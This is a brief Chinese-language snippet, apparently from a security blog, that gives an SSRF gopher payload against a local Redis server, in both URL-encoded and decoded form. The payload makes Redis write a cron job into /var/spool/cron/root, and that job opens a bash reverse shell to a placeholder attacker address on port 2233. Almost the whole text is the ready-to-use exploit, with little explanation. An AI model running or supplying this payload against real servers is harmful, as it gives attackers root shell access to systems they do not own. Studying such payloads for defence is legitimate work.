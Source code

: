 使用payload为以下：

```
gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$61%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/x.x.x.x/2233 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
```

解码后的内容就是：

```
gopher://127.0.0.1:6379/_*3
$3
set
$1
1
$61



*/1 * * * * bash -i >& /dev/tcp/x.x.x.x/2233 0>&1




*4
$6
config
$3
set
$3
dir
$16
/var/spool/cron/
*4
$6
config
$3
set
$10
dbfilename
$4
root
*1
$4
save
*1
$4
quit

```

来自：<https://joychou.org/web/phpssrf.html>
